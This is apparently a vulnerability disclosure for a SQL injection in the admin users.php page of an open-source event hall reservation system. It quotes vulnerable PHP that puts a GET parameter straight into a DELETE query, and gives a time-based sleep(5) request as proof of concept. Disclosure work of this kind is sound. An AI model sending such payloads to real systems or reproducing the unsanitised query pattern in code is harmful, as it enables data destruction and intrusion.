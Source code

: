 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - SQL Injection users.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /admin/users.php

## Code
```php
if(isset($_GET['user_id'])){
    $uid = $_GET['user_id'];
    $sql = "DELETE FROM tbl_user WHERE user_id = $uid";
    $result = $conn->query($sql);
}
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/users.php?user_id=sleep(5) HTTP/1.1
Host: [REDACTED]
```

## Screenshot


